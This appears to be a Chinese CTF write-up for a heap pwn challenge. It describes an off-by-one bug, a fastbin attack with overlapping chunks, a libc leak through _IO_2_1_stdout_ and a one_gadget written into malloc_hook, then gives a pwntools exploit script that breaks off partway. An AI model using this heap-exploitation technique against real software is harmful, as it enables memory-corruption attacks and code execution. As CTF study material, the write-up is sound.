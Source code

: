 没有show函数泄露地址

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1ghy8b51kpij31g60sqn05.jpg)

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1ghy8b9thfjj317e0m0q4v.jpg)

存在off-by-one漏洞

思路：

1. fastbin attack任意地址写

    构造堆块重叠，实现任意地址写：让chunk既在fastbin中又在unsorted_bin中，则这个chunk的fd指针指向`main_arena+88`，从unsorted_bin中申请这个chunk，只输入两字节覆盖的fd指针低字节从而让fd指向目标地址之前（`_IO_2_1_stdout`地址之前、malloc_hook之前）的一个地址（绕过size的验证），将chunk分配到目标地址上![](https://tva1.sinaimg.cn/large/007S8ZIlgy1ghyj9jlt19j318a0u0tqc.jpg)

2. 利用`_IO_2_1_stdout`泄露libc地址，计算基地址

    ![](https://tva1.sinaimg.cn/large/007S8ZIlgy1ghyjewu6ycj31c60r8naj.jpg)

3. 将one_gadget写入malloc_hook

    ![](https://tva1.sinaimg.cn/large/007S8ZIlgy1ghyjhetvqwj31co0qw7ez.jpg)

exp

```python
#!/usr/bin/env python2

# -*- coding: utf-8 -*-

from pwn import *

elf=ELF('./pwn')
libc=ELF('libc-2.23.so')

def add(content,idx,size):
	p.recvuntil('>>>')
	p.sendline('1')
	p.recvuntil('idx:')
	p.sendline(str(idx))
	p.recvuntil('len:')
	p.sendline(str(size))
	p.recvuntil('content:')
	p.send(content)

def delete(idx):
	p.recvuntil('>>>')
	p.sendline('2')
	p.recvuntil('idx:')
	p.sendline(str(idx))

def pwn():
	
  add('aaa',0,0x30)
	add('aaa',1,0x100)
	add('aaa',2,0x60)
	add('aaa',3,0x30)
	add('aaa',4,0x20)
	
	delete(0)
	delete(2)
	add('b'*0x38+'\xc1',0,0x38)#10+70+40=c0 让chunk1与chunk2、chunk3重叠
  
	delete(1)
	add('aaa',1,0x100)
	add('\xdd\x25',2,0x90)#从unsorted_bin中申请chunk，覆盖fd低位(需要爆破半字节)，所以申请0x90 
```